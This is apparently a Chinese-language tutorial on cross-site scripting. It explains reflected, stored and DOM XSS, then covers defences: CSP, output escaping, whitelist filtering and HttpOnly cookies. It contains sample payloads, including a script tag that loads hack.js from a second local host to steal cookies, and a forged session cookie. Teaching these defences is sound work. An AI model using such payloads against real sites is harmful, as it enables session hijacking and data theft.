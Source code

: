 ## XSS攻击和防御手段

##### XSS攻击：跨站脚本攻击

> 跨站脚本攻击XSS（Cross Site Scripting),是最普遍的安全漏洞，通过向有安全漏洞的web网站运行非法的非本站的HTML标签和JavaScript脚本进行的一种攻击

##### XSS攻击方式分类

- 反射型：URL参数直接注入

   A.攻击者通过诱导用户点击恶意 URL， URL可能是这样：

   `http://localhost:3000/?from=<script>alert('我是一段恶意攻击脚本！')</script>`

   B.服务器接收到参数，将恶意代码取出拼接在用户 HTML 中，用户浏览器接收后进行执行，其中恶意代码 也被执行了。

  ```js
  // 普通 
  http://localhost:3000/?from=china 
  // alert尝试 
  http://localhost:3000/?from=<script>alert(3)</script> 
  // 获取Cookie 
  http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
  // 短域名伪造  https://dwz.cn/
  // 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNT Y1MDAxODYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
  ```

- 存储型：存储到DB中，运行时执行存储的脚本达到注入目的

  假设场景：攻击者在评论中写入一段恶意脚本，其他用户访问评论类别时，恶意脚本便会获取到用户的信息

  ```js
  // 评论 
  <script>alert(1)</script>
  // 跨站脚本注入 
  我来了<script src="http://localhost:4000/hack.js"></script>
  ```

- Dom型：URL参数注入

  Dom型攻击和反射型类型类似，通过URL写入恶意脚本，区别是浏览器接受参数并且直接解析

#####  XSS攻击危害

- 获取页面数据
- 获取用户Cookies
- 劫持前端逻辑
- 偷取网站的任意数据
- 偷取用户的资料
- 偷取用户的秘密和登录态
- 欺骗用户

##### XSS防御手段

1. X-XSS-Protection

   > HTTP X-XSS-Protection 响应头是 Internet Explorer，Chrome 和 Safari 的一个特性，当检测到跨站脚本攻击 (XSS)时，浏览器将停止加载页面。
   > 配置参数：
   > 0 - 禁止 XSS 过滤。
   > 1 - 启用 XSS 过滤（通常浏览器是默认的）。浏览器检测到攻击后将去除不安全部分
   > 1;mode=block - 启用 XSS 过滤，检测到攻击之后，不会清除不安全部分，而是阻止页面加载
   > 1;report= (Chromium only) - 启用XSS过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用CSP report-uri指令的功能发送违规报告。

2. CSP内容安全策略

   > **内容安全策略**（CSP content security Policy）是一个附加的安全层，用户帮助检测和缓解某些类型的攻击，包括跨站脚本（XSS）和数据注入的攻击。CSP本质上就是建立白领单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是浏览器自己实现的，通过这种方式可以减少XSS攻击。

   ```js
   // 只允许加载本站资源 
   Content-Security-Policy: default-src 'self' 
   // 只允许加载 HTTPS 协议图片 
   Content-Security-Policy: img-src https://* 
   // 不允许加载任何来源框架 
   Content-Security-Policy: child-src 'none'
   ```

   ```js
   ctx.set('Content-Security-Policy',"default-src 'self'")
   // 尝试一下外部资源不能加载 
   http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
   ```

   

3. 转义字符

   **黑名单**

   > 用户输入的永远不可信任，最普遍的做法就是转义输入输出内容，对于引号，尖括号，斜杠进行转义

   ```js
   function escape(str) { 
     str = str.replace(/&/g, '&amp;') 
     str = str.replace(/</g, '&lt;') 
     str = str.replace(/>/g, '&gt;') 
     str = str.replace(/"/g, '&quto;') 
     str = str.replace(/'/g, '&#39;') 
     str = str.replace(/`/g, '&#96;') 
     str = str.replace(/\//g, '&#x2F;') 
     return str 
   }
   ```

   > 对于富文本来说，显然不能通过上述的方法转义所有的字符，因为这样会把已有的格式给转义掉。这种情况需要通过白名单的方式过滤，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在太多，更加推荐使用白名单的方式。

   ****

   **白名单**

   ```js
   const xss = require('xss') 
   let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>') 
   // --> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt; console.log(html)
   ```

4. httpOnly Cookie

   > 这是预防XSS攻击截取用户cookie最有效的防御手段。web应用程序在设置Cookie时，将其属性设置为HttpOnly,就可以避免网页的Cookie被客户端恶意的javascript窃取，从而保护用户cookie信息

   ```js
   response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly")
   ```

##### 相关资料

# [前端安全系列（一）：如何防止XSS攻击？](https://tech.meituan.com/2018/09/27/fe-security.html)

